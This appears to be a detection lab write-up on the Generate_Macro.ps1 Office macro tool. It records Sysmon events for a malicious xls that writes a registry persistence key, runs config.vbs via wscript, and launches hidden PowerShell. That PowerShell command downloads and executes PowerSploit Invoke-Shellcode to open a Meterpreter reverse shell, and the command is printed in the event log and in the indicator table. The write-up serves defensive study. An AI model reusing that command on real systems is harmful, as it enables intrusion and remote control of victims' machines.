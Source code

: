 # Generate_Macro.ps1 

## Goal 
This write-up will focus on capturing techniques (Mainly focus on persistent) and the raw events by leveraging Generate_Macro (Credit to @enigma0x3) for study purpose. Generate-Macro will pack the payload into office macro and produce a xls file. For the payload options, it offers 4 options which are:

| Simulation # | Payload Option                                                                           |
| ------------ | ---------------------------------------------------------------------------------------- |
| 1            | Meterpreter Shell with Logon Persistence                                                 |
| 2            | Meterpreter Shell with Powershell Profile Persistence (Requires user to be local admin). |
| 3            | Meterpreter Shell with Alternate Data Stream Persistence                                 |
| 4            | Meterpreter Shell with Scheduled Task Persistence                                        |

Once the victim open the malicious xls, the vbs with callback payload will be created at C:\Users\Public\config.vbs (default path). And by modifying the registry to maintain the persistency.

## Caveat
This write-up will only focus on techniques used by Generate_Macro, please bare with me to exclude other techniques outside this tool. 

## Logging environment
* Splunk with Sysmon TA 
* Windows 10 Pro

## Technical Context
### Simulation 1 
#### Payload Generation
* Payload was generate with option #1. Meterpreter Shell with Logon Persistence

#### Attack Begin
1. User open the malicious excel file and autorun the macro  
The behavior of a user openin an excel file is too generic. Nothing had captured for this write-up.

2. Persistent by modifying registry(T1112)  
This macro will first modify the registry to maintain the persistency.  

##### Raw Sysmon Event
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385f-c22a-43e0-bf4c-06f5698ffbd9}'/><EventID>13</EventID><Version>2</Version><Level>4</Level><Task>13</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-11-23T15:40:52.8285083Z'/><EventRecordID>13517</EventRecordID><Correlation/><Execution ProcessID='2944' ThreadID='3680'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>DESKTOP-DS6SIME</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>T1060</Data><Data Name='EventType'>SetValue</Data><Data Name='UtcTime'>2020-11-23 15:40:52.811</Data><Data Name='ProcessGuid'>{f2b94391-d804-5fbb-b30a-000000000500}</Data><Data Name='ProcessId'>5884</Data><Data Name='Image'>C:\Program Files (x86)\Microsoft Office\Root\Office16\EXCEL.EXE</Data><Data Name='TargetObject'>HKU\S-1-5-21-2242309504-3943410855-4141223597-1001\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\Load</Data><Data Name='Details'>C:\Users\Public\config.vbs</Data></EventData></Event>
```

##### Key Indicator

| Field               | Value                                                                                                        | Comments |
| ------------------- | ------------------------------------------------------------------------------------------------------------ | -------- |
| EventID             | 13                                                                                                           |          |
| process_name        | EXCEL.EXE                                                                                                    |          |
| process_id          | 5884                                                                                                         |          |
| registry_path       | HKU\S-1-5-21-2242309504-3943410855-4141223597-1001\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\Load |          |
| registry_value_name | C:\Users\Public\config.vbs                                                                                   |          |

3. payload execution - wscript
##### Raw Sysmon Event

```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385f-c22a-43e0-bf4c-06f5698ffbd9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-11-23T15:40:52.8463770Z'/><EventRecordID>13519</EventRecordID><Correlation/><Execution ProcessID='2944' ThreadID='3680'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>DESKTOP-DS6SIME</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-11-23 15:40:52.830</Data><Data Name='ProcessGuid'>{f2b94391-d804-5fbb-b70a-000000000500}</Data><Data Name='ProcessId'>9140</Data><Data Name='Image'>C:\Windows\SysWOW64\wscript.exe</Data><Data Name='FileVersion'>5.812.10240.16384</Data><Data Name='Description'>Microsoft ® Windows Based Script Host</Data><Data Name='Product'>Microsoft ® Windows Script Host</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>wscript.exe</Data><Data Name='CommandLine'>wscript C:\Users\Public\config.vbs</Data><Data Name='CurrentDirectory'>C:\Users\victim\Documents\</Data><Data Name='User'>DESKTOP-DS6SIME\victim</Data><Data Name='LogonGuid'>{f2b94391-ac21-5fbb-5e81-010000000000}</Data><Data Name='LogonId'>0x1815e</Data><Data Name='TerminalSessionId'>1</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=4D780D8F77047EE1C65F747D9F63A1FE,SHA256=391D47D21304F8F97254A6537AA65476609FC222AD0AD86E7008419D61735A9C,IMPHASH=3602F3C025378F418F804C5D183603FE</Data><Data Name='ParentProcessGuid'>{f2b94391-d804-5fbb-b30a-000000000500}</Data><Data Name='ParentProcessId'>5884</Data><Data Name='ParentImage'>C:\Program Files (x86)\Microsoft Office\root\Office16\EXCEL.EXE</Data><Data Name='ParentCommandLine'>"C:\Program Files (x86)\Microsoft Office\Root\Office16\EXCEL.EXE" "C:\Users\victim\Desktop\cv.xls"</Data></EventData></Event>
```

##### Key Indicator

| Field             | Value                                                                                              | Comments |
| ----------------- | -------------------------------------------------------------------------------------------------- | -------- |
| EventID           | 1                                                                                                  |          |
| cmdline           | wscript C:\Users\Public\config.vbs                                                                 |          |
| process_name      | wscript.exe                                                                                        |          |
| parent_process    | "C:\Program Files (x86)\Microsoft Office\Root\Office16\EXCEL.EXE" "C:\Users\victim\Desktop\cv.xls" |          |
| process_id        | 9140                                                                                               |          |
| parent_process_id | 5884                                                                                               |          |

4. payload execution - powershell
##### Raw Event
```xml
<Event xmlns='http://schemas.microsoft.com/win/2004/08/events/event'><System><Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385f-c22a-43e0-bf4c-06f5698ffbd9}'/><EventID>1</EventID><Version>5</Version><Level>4</Level><Task>1</Task><Opcode>0</Opcode><Keywords>0x8000000000000000</Keywords><TimeCreated SystemTime='2020-11-23T15:40:53.1141176Z'/><EventRecordID>13521</EventRecordID><Correlation/><Execution ProcessID='2944' ThreadID='3680'/><Channel>Microsoft-Windows-Sysmon/Operational</Channel><Computer>DESKTOP-DS6SIME</Computer><Security UserID='S-1-5-18'/></System><EventData><Data Name='RuleName'>-</Data><Data Name='UtcTime'>2020-11-23 15:40:53.091</Data><Data Name='ProcessGuid'>{f2b94391-d805-5fbb-b80a-000000000500}</Data><Data Name='ProcessId'>5680</Data><Data Name='Image'>C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe</Data><Data Name='FileVersion'>10.0.19041.1 (WinBuild.160101.0800)</Data><Data Name='Description'>Windows PowerShell</Data><Data Name='Product'>Microsoft® Windows® Operating System</Data><Data Name='Company'>Microsoft Corporation</Data><Data Name='OriginalFileName'>PowerShell.EXE</Data><Data Name='CommandLine'>"C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle Hidden -nop -noexit -c IEX ((New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1')); Invoke-Shellcode -Payload windows/meterpreter/reverse_http -Lhost 192.168.254.44 -Lport 8443 -Force</Data><Data Name='CurrentDirectory'>C:\Users\victim\Documents\</Data><Data Name='User'>DESKTOP-DS6SIME\victim</Data><Data Name='LogonGuid'>{f2b94391-ac21-5fbb-5e81-010000000000}</Data><Data Name='LogonId'>0x1815e</Data><Data Name='TerminalSessionId'>1</Data><Data Name='IntegrityLevel'>Medium</Data><Data Name='Hashes'>MD5=5B16D54F2AE6B74DCF863BC0F5E502B5,SHA256=FCC434CC413E969DE19D329CA4E15CA567DA5DAA1F7E265D96EAF6E3D9D8B2CB,IMPHASH=194427A488ED1DD0A91731658B071667</Data><Data Name='ParentProcessGuid'>{f2b94391-d804-5fbb-b70a-000000000500}</Data><Data Name='ParentProcessId'>9140</Data><Data Name='ParentImage'>C:\Windows\SysWOW64\wscript.exe</Data><Data Name='ParentCommandLine'>wscript C:\Users\Public\config.vbs</Data></EventData></Event>
```

##### Key Indicator

| Field             | Value                                                                                                                                                                                                                                                                                                                                                | Comments |
| ----------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------- |
| EventID           | 1                                                                                                                                                                                                                                                                                                                                                    |          |
| process_exec      | powershell.exe                                                                                                                                                                                                                                                                                                                                       |          |
| process_id        | 5680                                                                                                                                                                                                                                                                                                                                                 |          |
| parent_process_id | 9140                                                                                                                                                                                                                                                                                                                                                 |          |
| cmdline           | "C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle Hidden -nop -noexit -c IEX ((New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1')); Invoke-Shellcode -Payload windows/meterpreter/reverse_http -Lhost 192.168.254.44 -Lport 443 -Force |          |

### Simulation 2 
Unable to simulate the attack since the macro no longer be able to run as administrator permission

### Simulation 3
Coming Soon

### Simulation 4
Coming Soon

## Credit
@enigma0x3 - Author of Generate_Macro.ps1

## Declaimer 
!This is for study purpose only!

## Other takeaways
* The reason of using VBScript as a wrapper is to hide the DOS prompt when invoking any payload.